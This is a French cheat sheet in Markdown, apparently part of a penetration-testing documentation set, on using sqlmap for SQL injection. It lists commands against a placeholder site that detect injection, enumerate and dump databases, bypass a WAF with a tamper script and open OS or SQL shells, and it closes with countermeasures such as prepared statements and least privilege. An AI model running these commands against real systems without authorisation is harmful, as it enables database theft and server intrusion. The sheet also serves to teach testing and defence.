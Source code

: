## 5. `docs/Couche5_7_Application/cheat-couche5-7.md`

```markdown
# Couche 5-7 (Application) – Sqlmap
**Version Testée : Sqlmap 1.6.x**  
**Attaque Ciblée : Injection SQL**

*Ce document est structuré pour une intégration avec le script automatisé qui génère un rapport complet des commandes exécutées via Sqlmap.*

---

## Sommaire

1. [Introduction](#introduction)
2. [Installation & Pré-requis](#installation--pré-requis)
3. [Commandes Clés](#commandes-clés)
4. [Fonctionnalités Avancées](#fonctionnalités-avancées)
5. [Contre-mesures](#contre-mesures)
6. [Intégration avec le Script](#intégration-avec-le-script)
7. [Références & Ressources](#références--ressources)

---

## Introduction

Sqlmap est un outil d’automatisation pour la détection et l’exploitation de vulnérabilités SQL. Il supporte plusieurs SGBD et propose des techniques avancées pour contourner les protections (WAF, etc.).

---

## Installation & Pré-requis

1. **Python requis.**  
2. **Cloner le dépôt :**
```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
3.	Exécution :
Utilisez python sqlmap.py ou le binaire sqlmap selon votre installation.
________________________________________
Commandes Clés
1. Détection d’une injection SQL
sqlmap -u "http://site.com/page?id=1" --batch
Détail :
--batch permet d’automatiser les réponses par défaut.
2. Extraire les bases de données
sqlmap -u "http://site.com/page?id=1" --dbs
3. Extraire une table spécifique
sqlmap -u "http://site.com/page?id=1" -D nom_de_base -T nom_de_table --dump
4. Bypass WAF
sqlmap -u "http://site.com/page?id=1" --tamper=space2comment
Détail :
Utilisation d’un script de modification pour contourner un WAF.
________________________________________
Fonctionnalités Avancées
•	--os-shell : Ouvre un shell système (si supporté par la base).
•	--sql-shell : Accès interactif à la base de données.
•	--dump-all : Extraction complète de la base.
•	--technique= : Spécifier les techniques d’injection à tester (UNION, BOOLEAN, etc.).
________________________________________
Contre-mesures
•	Développement sécurisé : 
o	Valider et filtrer les entrées utilisateur.
o	Utiliser des requêtes préparées (ex. PDO).
•	Défense en profondeur : 
o	Déployer un WAF.
o	Appliquer le principe du moindre privilège sur les comptes de base.
________________________________________
Intégration avec le Script
•	Annotations :
Le script enregistrera l’exécution de chaque commande Sqlmap ainsi que les résultats pour générer un rapport final détaillé.
•	Log des actions :
Chaque interaction (commande, option, résultat) sera capturée pour une analyse post-exécution.
________________________________________
Références & Ressources
•	Site Officiel SQLmap
•	GitHub SQLmap
•	OWASP Injection

---
